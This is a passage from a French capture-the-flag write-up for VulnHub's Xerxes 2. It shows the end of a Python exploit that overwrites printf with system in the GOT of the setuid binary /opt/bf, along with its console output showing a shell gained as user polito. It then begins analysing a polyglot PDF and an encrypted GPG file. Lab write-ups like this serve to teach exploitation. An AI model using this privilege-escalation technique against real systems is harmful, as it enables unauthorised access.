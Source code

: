 ```python
    subprocess.call(["/tmp/sh"])
else:
    print "[!] Ouch, something wen't wrong... Try harder"
```

Il ne reste alors qu'à mettre les pieds sous la table :  

```console
delacroix@xerxes2:~$ python exploit.py
[i] devloop exploit for Xerxes 2 /opt/bf - fully automated
[*] Getting printf address in GOT with objdump
[*] GOT address for printf is 0x8049a48
[*] Launching test process to get distance between printf and system...
[*] printf is at 0xb75d3f50L
[*] system is at 0xb75c6000L
[*] Offset to system is -57168
[*] Launching the process for attack...
[*] printf is at 0xb76abf50L
[*] system must be at 0xb769e000L
[*] Overwriting printf address with system address in GOT
[*] Putting our command
[*] Enjoy your shell with euid polito :)
$ id
uid=1002(delacroix) gid=1002(delacroix) euid=1001(polito) egid=1001(polito) groups=1001(polito),1002(delacroix)
```

POUNED !  

## Troisème énigme

On trouve dans le dossier personnel de `polito` un fichier PDF particulier :  

```console
$ file polito.pdf
polito.pdf: DOS/MBR boot sector
```

Avec `hexdump` on s’aperçoit que le fichier contient deux headers PDF, l'un avec le texte suivant :  

```
--WARNING--
Unauthorized file access will be reported..
XERXES wishes you a most productive day
```

et l'autre qui s'affiche depuis un lecteur PDF quelconque (ex: *Okular*) et contient un *QRcode* [en référence à Xerxes 1]({% link _posts/2014-03-07-Solution-du-CTF-Xerxes-de-VulnHub.md %}).  

Mais il n'y a rien à voir du côté du *QRcode* qui correspond seulement au texte *"XERXES is watching..."*  

L'image du code est en grayscale et l'ancien CTF cachait des données dans le canal alpha qui n'existe pas ici.  

On trouve aussi un fichier `dump.gpg` et comme il n'y a aucune paire de clé dans le dossier `.gnupg` on devine que ce fichier est chiffré avec un algo symétrique.  
